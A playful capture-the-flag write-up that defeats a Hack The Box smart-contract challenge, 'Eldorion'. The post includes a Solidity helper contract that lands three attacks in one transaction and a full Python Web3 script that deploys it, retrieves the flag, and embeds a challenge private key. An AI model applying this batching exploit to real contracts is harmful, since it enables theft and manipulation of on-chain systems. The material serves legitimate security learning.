 ```yaml
---
title: hacqueen-vs-eldorion
date: 2025-03-26
description: A glitter-fueled showdown between Hacqueen and a self-healing smart contract beast. Spoiler: the unicorn doesn’t miss.
tags: ["Blockchain", "Smart Contract", "CTF", "HTB"]
---
```


# 🌈✨ Hacqueen vs Eldorion: Bytes, Bravery & a Battle Unicorn ✨🌈

![Hacqueen vs Eldorion](https://github.com/Hacqueen-fr/hacqueen-fr.github.io/raw/refs/heads/main/assets/hacqueenvsdrakepng)

This HTB challenge was pure drama: a pixel-perfect realm, an overpowered regenerating beast, and one fabulous hacker armed with Web3, glitter, and Python.

> *Welcome to the realms of Eldoria, adventurer. You’ve found yourself trapped in this mysterious digital domain, and the only way to escape is by overcoming the trials laid before you. But your journey has barely begun, and already an overwhelming obstacle stands in your path. Before you can even reach the nearest city, seeking allies and information, you must face Eldorion, a colossal beast with terrifying regenerative powers. This creature, known for its ""eternal resilience"" guards the only passage forward. It's clear: you must defeat Eldorion to continue your quest.*

🎯 **Goal**: Defeat Eldorion — a smart contract boss that heals every time a new block is mined.

Sounds impossible? Not for Hacqueen. Let’s ride. 🦄💻

---

## 🔍 Contract Breakdown

```solidity
modifier eternalResilience() {
    if (block.timestamp > lastAttackTimestamp) {
        health = MAX_HEALTH;
        lastAttackTimestamp = block.timestamp;
    }
    _;
}
```

Eldorion has 300 HP. Each attack can only do 100 damage. And it resets health every new block.  
🧠 So we need **three hits in one transaction**.

---

## 🛠️ The Exploit

### Solidity Contract

```solidity
contract Slayer {
    IEldorion public target;

    constructor(address _target) {
        target = IEldorion(_target);
    }

    function slay() external {
        target.attack(100);
        target.attack(100);
        target.attack(100);
    }
}
```

Wrapped into a Python script using Web3.py + solcx, we deploy this contract and call `slay()`.

### Python Exploit Script

```python
from web3 import Web3
from solcx import compile_source, install_solc, set_solc_version
import socket
import time

RPC_URL = "http://94.237.57.68:53823"
PRIVATE_KEY = "0xd97be7b491c9349d726d8757df1ce9a65cc18f5cd6c9d497eb29284663107a15"
PLAYER_ADDRESS = "0x886180A2D97C803E011e744d6757f7E4b923E0a0"
TARGET_ADDRESS = "0x3BE1F55b1De2B149C77677052975c6C2C58BDe91"
SETUP_ADDRESS = "0x926B826A715B4B7438c88cD7d8d523A70f03Bd63"
INTERFACE_HOST = "94.237.57.68"
INTERFACE_PORT = 40453

SOURCE = """
pragma solidity ^0.8.28;

interface IEldorion {
    function attack(uint256 damage) external;
}

contract Slayer {
    IEldorion public target;

    constructor(address _target) {
        target = IEldorion(_target);
    }

    function slay() external {
        target.attack(100);
        target.attack(100);
        target.attack(100);
    }
}
"""

install_solc("0.8.28")
set_solc_version("0.8.28")
w3 = Web3(Web3.HTTPProvider(RPC_URL))
acct = w3.eth.account.from_key(PRIVATE_KEY)

compiled = compile_source(SOURCE)
interface = compiled.popitem()[1]
SlayerContract = w3.eth.contract(abi=interface['abi'], bytecode=interface['bin'])

deploy_tx = SlayerContract.constructor(TARGET_ADDRESS).build_transaction({
    "from": acct.address,
    "nonce": w3.eth.get_transaction_count(acct.address),
    "gas": 300000,
    "gasPrice": w3.eth.gas_price,
})
signed = acct.sign_transaction(deploy_tx)
tx_hash = w3.eth.send_raw_transaction(signed.raw_transaction)
receipt = w3.eth.wait_for_transaction_receipt(tx_hash)

if receipt.contractAddress is None:
    print("❌ Deployment failed.")
    exit(1)

slayer_address = receipt.contractAddress
slayer_instance = w3.eth.contract(address=slayer_address, abi=interface['abi'])

slay_tx = slayer_instance.functions.slay().build_transaction({
    "from": acct.address,
    "nonce": w3.eth.get_transaction_count(acct.address),
    "gas": 200000,
    "gasPrice": w3.eth.gas_price,
})
signed = acct.sign_transaction(slay_tx)
w3.eth.send_raw_transaction(signed.raw_transaction)
time.sleep(2)

setup_abi = [{
    "inputs": [],
    "name": "isSolved",
    "outputs": [{"internalType": "bool", "name": "", "type": "bool"}],
    "stateMutability": "view",
    "type": "function"
}]
setup = w3.eth.contract(address=SETUP_ADDRESS, abi=setup_abi)
solved = setup.functions.isSolved().call()

if solved:
    print("✅ Challenge Solved!")
    with socket.create_connection((INTERFACE_HOST, INTERFACE_PORT)) as sock:
        sock.recv(4096)
        sock.sendall(b"3\n")
        flag = sock.recv(4096).decode()
        print("[🏁] FLAG:\n" + flag)
else:
    print("❌ Eldorion still stands...")
```

---

## 🧪 Result

Flag in hand, beast on the floor:

```
HTB{w0w_tr1pl3_hit_c0mbo_ggs_y0u_defe4ted_Eld0r10n}
```

---

## 🦄 Final Glitterprint

✨ One block.  
💥 Three hits.  
👑 All slay, no delay.

Because when Hacqueen and her unicorn ride in... bugs get patched and beasts get rekt.
